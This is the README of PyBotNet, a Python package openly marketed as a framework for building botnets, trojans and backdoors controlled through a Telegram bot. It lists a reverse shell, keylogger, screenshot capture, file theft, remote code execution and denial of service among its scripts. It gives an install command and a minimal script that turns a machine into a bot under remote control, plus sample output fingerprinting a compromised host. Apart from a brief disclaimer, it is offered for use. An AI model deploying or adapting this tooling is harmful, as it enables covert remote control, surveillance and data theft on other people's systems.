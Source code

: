 
 <p align="center">
    <a href='https://github.com/onionj/pybotnet' target='_blank'><img src='https://files.virgool.io/upload/users/271869/posts/wxs2bk9hkqfx/ezoxwssoikqm.jpeg' border='5' alt='trojan horse'/></a>
    <h1 align="center">PyBotNet</h1>
    <p align="center"> 
    A Python framework for building <b>remote control</b>, <b>botnet</b> , <b>trojan</b>  or <b>backdoor</b> with Telegram or other control panels
    </p>
  <p align="center">
    <a href="https://github.com/onionj/pybotnet">
      <img src="https://img.shields.io/pypi/v/pybotnet?label=pybotnet" />
    </a>
    <a href="https://github.com/onionj/pybotnet/blob/master/LICENSE">
      <img src="https://img.shields.io/github/license/onionj/pybotnet" />
    </a>
    <a href="https://www.python.org/">
    	<img src="https://img.shields.io/pypi/pyversions/pybotnet" />
    </a>
   </p>
   <p align="center">
    <a href="https://www.pepy.tech/projects/pybotnet">
      <img src="https://static.pepy.tech/badge/pybotnet" />
    </a>
    <a href="https://www.pepy.tech/projects/pybotnet">
      <img src="https://static.pepy.tech/badge/pybotnet/month" />
    </a>
    <a href="https://www.pepy.tech/projects/pybotnet">
      <img src="https://static.pepy.tech/badge/pybotnet/week" />
    </a>
   </p>
</p>
 

> Disclaimer: Please note that this is a research project. I am by no means responsible for any usage of this tool. Use it on your behalf!. 

---

**Source Code**: <a href="https://github.com/onionj/pybotnet" target="_blank">https://github.com/onionj/pybotnet</a>

**Documentation**: <a href="https://onionj.github.io/pybotnet/" target="_blank">https://onionj.github.io/pybotnet/</a>

**ToDo List**: <a href="https://github.com/users/onionj/projects/1" target="_blank">https://github.com/users/onionj/projects/1</a>

---

### Features:
* Built in Telegram control pannel and proxy system
* Built in scripts like:
    * reverse shell
    * put or get file
    * run python code on target systems
    * get screenshot
    * keylogger
    * dos
    * scheduler
    * ...
* Cross platform
* Ability to easily add custom scripts
* Import external scripts
* Ability to add custom control panel
* Add remote control to your apps
* [...](https://onionj.github.io/pybotnet/)


### Install PyBotNet

```console
pip3 install pybotnet -U
```

* `-U`: make sure to upgrade framework to latest version.


#### The simplest PyBotNet file could look like this:


```py title="main.py"
# in main.py
from pybotnet import BotNet, TelegramEngine


telegram_engine = TelegramEngine(token=TELEGRAM_TOKEN, admin_chat_id=ADMIN_CHAT_ID) #(1)

botnet = BotNet(telegram_engine) # (2)
botnet.run()
```

1. create engine: Engines transfer messages between admin and botnet
2. create BotNet instance


#### note:
  * `TELEGRAM_TOKEN`: You can use telegram `@botfather` to Create new telegram API Bot and get your `TELEGRAM_TOKEN` 
  * `ADMIN_CHAT_ID`: Get it from @userinfobot telegram bot
  * PyBotNet include default scripts, like: `/shell`, `/put_file`, `/get_file`, `/screenshot`, `/who`, ...,
    you can send `/help` to your telegram bot and see more detail..

#### Run code:

```console 
python3 main.py
```

#### telegram engine

open telegram and send `/who` command to your bot; If you have done the steps correctly, you recive a message like this:

```
scripts_name:
    echo
    who
    shell
    screenshot
    put_file
    get_file
    runcode
    openurl
    dos
    schedule

mac_addres: 228362405364
os: Linux
global_ip: 5.10.30.35
country: Iran, Islamic Republic of
bot_name: no_name
local_ip: {'192.168.23.1'}
host_name: {'system_name'}
system_user: root
up_time: 0:00:01
current_route: /
pid: 148352
cpu_count: 8
pybotnet_version: 2.0.8b0
from cache: True
```


you can send `/help` to see help page, or send `/help <script_name>` to recive more help about a specific script.

for example send `/help screenshot`, You will receive:

```
NAME:
screenshot

DESCRIPTION:
get screen shot
    * `[mac-address] /screenshot`
    or
    * `/screenshot`

    example command: 
        * `94945035671481 /screenshot`
        * `/screenshot` 

    return: img or img-download-link
    

script_version: 0.0.1
default_script: True

___________________________
scripts_name: ['echo', 'who', 'shell', 'screenshot', 'put_file', 'get_file', 'runcode', 'openurl', 'dos', 'schedule']
mac_addres: 228362405364
os: Linux
global_ip: 5.10.30.35
country: Iran, Islamic Republic of
bot_name: no_name
use_proxy: False
```

in top of message you see script name, description, syntax, and examples.

for run screenshot script you have two choice:

* Run the script on all clients that are listening to Telegram bot (for now we have one!)
* Run script on one specific system

for run script on all client send `/screenshot`.

bot if you need to get screen-shot on a specific system you need to send `[mac_addres] /screenshot` for our case: `228362405364 /screenshot`

in some case like `/shell` you need to run it just for one system.


For see who we can `Add custom scripts`, `Run in background`, `Running the pybotnet without coding`, and etc, see the below documentation.

### *For more, see [Documentation](https://onionj.github.io/pybotnet/)*


---

## Contributors ✨
Thanks goes to these wonderful people :

<table>
<td align="center"><a href="https://github.com/TorhamDev"><img src="https://avatars.githubusercontent.com/u/87639984?v=4" width="70px;" alt=""/><br /><sub><b> TorhamDev</b></sub></a><br /></td>
<td align="center"><a href="https://github.com/SepehrRasouli"><img src="https://avatars.githubusercontent.com/u/81516241?v=4" width="70px;" alt=""/><br /><sub><b> SepehrRasouli</b></sub></a><br /></td>
</table>

